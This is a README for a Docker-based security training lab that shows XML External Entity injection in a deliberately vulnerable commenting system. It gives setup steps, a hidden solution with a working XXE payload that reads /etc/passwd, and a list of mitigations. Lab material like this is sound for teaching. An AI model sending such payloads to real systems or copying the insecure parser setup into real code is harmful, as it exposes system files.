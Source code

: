 # XXE Injection Lab

This is a standalone lab demonstrating the OWASP Top 10 category A4: XML External Entity (XXE) Injection. The lab simulates a commenting system that is vulnerable to XXE injection due to improper configuration of the XML parser.

## Vulnerability

The lab demonstrates XXE injection through:
1. A commenting system that accepts and processes XML input
2. An XML parser configured to allow external entity expansion
3. No input validation on the XML data

## Setup

1. Make sure you have Docker and Docker Compose installed
2. Clone the repository
3. Navigate to the lab directory
4. Run:
```bash
docker-compose up --build
```
5. Visit http://localhost:5010 in your browser

## Challenge

The goal is to exploit the XXE vulnerability to:
1. Read sensitive files from the system
2. Demonstrate the risks of improper XML parsing

## Solution

<details>
<summary>Click to reveal solution</summary>

1. Use BurpSuite to intercept the comment submission request
2. Modify the XML payload to include an external entity
3. Use the external entity to read system files

Example payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE comm [
<!ELEMENT comm (#PCDATA)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<comm>
<text>&xxe;</text>
</comm>
```

A secure implementation would:
- Disable DTD processing
- Disable external entity resolution
- Validate and sanitize XML input
- Use secure XML parsing libraries
</details>
